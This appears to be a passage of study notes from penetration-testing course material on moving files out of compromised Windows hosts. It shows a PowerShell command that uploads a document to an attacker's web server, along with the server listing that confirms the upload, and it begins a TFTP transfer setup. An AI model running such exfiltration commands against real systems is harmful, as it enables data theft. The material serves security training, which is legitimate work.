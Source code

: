 
C:\Users\Offsec> powershell (New-Object System.Net.WebClient).UploadFile('http://10.11
.0.4/upload.php', 'important.docx')
# Listing 492 - PowerShell command to upload a file to the attacker machine

• After execution of the powershell command, we can verify the successful 
  transfer of the file:

kali@kali:/var/www/uploads$ ls -la
total 360
drwxr-xr-x 2 www-data www-data 4096 Feb 2 00:38 .
drwxr-xr-x 4 root root 4096 Feb 2 00:33 ..
-rw-r--r-- 1 www-data www-data 359250 Feb 2 00:38 important.docx

--------------------------------------------------------------------------

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/41.jpg)



![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/42.jpg)
![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/43.jpg)




![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/44.jpg)

16.2.5 Uploading Files with TFTP
 
• While the Windows-based file transfer methods shown above work on all Windows versions sinceWindows 7 and Windows Server 2008 R2, we may run into problems when encountering olderoperating systems. 

• PowerShell, while very powerful and often-used, is not installed by default on operating systems like Windows XP and Windows Server 2003, which are still found in someproduction networks.

• While both VBScript and the FTP client are present and will work, in this section we will discuss another file transfer method that may be effective in the field.

• TFTP is a UDP-based file transfer protocol and is often restricted by corporate egress fire wall rules.

• During a penetration test, we can use TFTP to transfer files from older Windows operating systems up to Windows XP and 2003. 
 
• This is a terrific tool for non-interactive file transfer, but it is not installed by default on systems running Windows 7, Windows 2008, and newer.
  
• For these reasons, TFTP is not an ideal file transfer protocol for most situations, but under the rightcircumstances, it has its advantages.
  
• Before we learn how to transfer files with TFTP, we first need to install and configure a TFTP server in Kali and create a directory to store and serve files. 
 
• Next, we update the ownership of the directoryso we can write files to it. We will run atftpd as a daemon on UDP port 69 and direct it to use thenewly created /tftp directory:
